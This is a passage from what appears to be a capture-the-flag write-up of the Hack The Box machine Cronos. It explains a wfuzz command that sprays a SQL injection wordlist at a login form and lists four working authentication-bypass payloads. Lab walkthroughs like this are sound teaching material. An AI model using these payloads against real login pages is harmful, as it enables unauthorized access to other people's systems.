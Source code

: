 To find it, we can use `wfuzz` to work through a list of known SQL injections. The command `wfuzz -c -z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt -d "username=FUZZ&password=password" http://admin.cronos.htb` will kick off the tests. Let's break down the command a bit though.

- `-c` outputs the results in color, so it's easier to read.
- `-z file,/usr/share/wfuzz/wordlist/Injections/SQL.txt` tells `wfuzz` to load up the listed file as a payload to read through.
- `-d "username=FUZZ&password=password"` gives the POST request to submit. Note the FUZZ text in the `username` field, telling `wfuzz` to stick the injections in this spot.

Wfuzz results (truncated):

![](/assets/htb-cronos/wfuzz_results.png)

So we actually got a few injections that work:

- `' or 1=1 or ''='`
- `x' or 1=1 or 'x'='y`
- `' or 1=1 or ''='`
- `' or 0=0 #`
